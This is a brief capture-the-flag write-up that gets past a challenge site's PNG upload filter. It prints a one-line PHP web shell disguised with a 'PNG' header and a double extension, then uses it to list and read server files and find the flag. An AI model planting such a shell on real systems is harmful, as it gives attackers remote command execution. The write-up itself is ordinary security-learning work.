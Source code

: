 # Trickster

![image.png](image.png)

Checked `robots.txt` and found `instructions.txt`, which said to upload a PNG file.

![image.png](image%201.png)

![image.png](image%202.png)

To bypass the filter, I created a PHP web shell and named it `shell.png.php`:

```php

PNG
<?php system($_GET['cmd']); ?>
```

***Note:** It should start with `'PNG'` to trick the file type check.*

Uploaded the file—it's stored in the `/uploads` directory.

Accessed the shell through:

`http://example.com/uploads/shell.png.php?cmd=ls`

Used `ls ..` to list files in the parent directory.

![image.png](image%203.png)

Used `cat ../filename` to read files.

***Note:** You can also try `cd ../*` to navigate and read all files.*

![image.png](image%204.png)

Eventually found and revealed the flag.


